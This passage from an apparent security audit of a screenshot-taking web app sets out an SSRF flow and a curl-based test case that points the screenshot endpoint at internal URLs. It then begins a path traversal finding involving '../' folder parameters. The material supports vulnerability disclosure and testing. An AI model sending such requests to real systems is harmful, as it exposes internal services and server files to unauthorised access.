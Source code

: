     **Visualization:**

    ```mermaid
    sequenceDiagram
        participant Attacker
        participant Backend Server
        participant ScreenshotOne API
        participant Internal Resource

        Attacker->>Backend Server: POST /api/screenshot {url: "http://internal-resource", apiKey: "API_KEY"}
        Backend Server->>ScreenshotOne API: GET https://api.screenshotone.com/take?access_key=API_KEY&url=http://internal-resource&...
        ScreenshotOne API->>Internal Resource: GET http://internal-resource
        alt internal-resource is accessible
            Internal Resource-->>ScreenshotOne API: Response from internal resource
            ScreenshotOne API->>Backend Server: Response with screenshot of internal resource
            Backend Server->>Attacker: Response {url: "data:image/png;base64,..."}
        else internal-resource is not accessible
            ScreenshotOne API-->>Backend Server: Error response
            Backend Server->>Attacker: Error response
        end
    ```

- **Security Test Case:**
    1. **Deploy** the application to a publicly accessible instance.
    2. **Prepare Malicious URL:** e.g., `http://localhost:7001/api/status` to target the application's status endpoint.
    3. **Send POST Request:** Use `curl` or Postman to send a POST request to `/api/screenshot` with the following JSON payload (replace `YOUR_SCREENSHOTONE_API_KEY`):
        ```json
        {
            "url": "http://localhost:7001/api/status",
            "apiKey": "YOUR_SCREENSHOTONE_API_KEY"
        }
        ```
        ```bash
        curl -X POST -H "Content-Type: application/json" -d '{"url": "http://localhost:7001/api/status", "apiKey": "YOUR_SCREENSHOTONE_API_KEY"}' http://<YOUR_APPLICATION_URL>/api/screenshot
        ```
    4. **Observe Response:** If vulnerable, the response will contain a data URL representing a screenshot. Decode the base64 data URL to view the screenshot. If it contains content from `http://localhost:7001/api/status`, SSRF is confirmed.
    5. **Test Internal Resources:** Try accessing other internal resources (e.g., `http://localhost:7001/evals`) or private IPs (e.g., `http://192.168.1.1`) to further explore the scope of SSRF.

### 3. Local File Inclusion (LFI) / Path Traversal in Evals Endpoints

- **Description:**
    The application is vulnerable to Local File Inclusion (LFI) or Path Traversal in the `/evals`, `/pairwise-evals`, and `/best-of-n-evals` endpoints. An attacker can manipulate the `folder`, `folder1`, `folder2`, etc., parameters in GET requests to these endpoints to access files and directories outside the intended evaluation directories. This is possible because the application uses user-provided folder paths directly in file system operations like `os.listdir` and `open` without proper validation or sanitization. By crafting malicious folder paths with path traversal sequences (e.g., `../`, `../../`), an attacker can navigate up the directory tree and access sensitive files or directories on the server's filesystem.
